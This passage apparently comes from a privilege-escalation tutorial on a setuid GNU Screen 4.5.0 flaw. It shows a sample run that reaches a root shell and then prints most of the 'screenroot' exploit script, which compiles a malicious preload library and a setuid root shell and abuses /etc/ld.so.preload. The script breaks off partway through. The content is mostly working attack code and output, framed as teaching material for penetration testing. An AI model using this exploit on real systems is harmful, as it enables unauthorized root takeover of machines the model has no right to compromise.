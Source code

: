This allows an attacker to truncate any file or create a file owned by root in any directory and ultimately gain full root access.

#### Privilege Escalation - Screen\_Exploit.sh

```shell
./screen_exploit.sh

~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /run/screen/S-mrb3n.

# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(mrb3n)

```

The below script can be used to perform this privilege escalation attack:

#### Screen\_Exploit\_POC.sh

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
```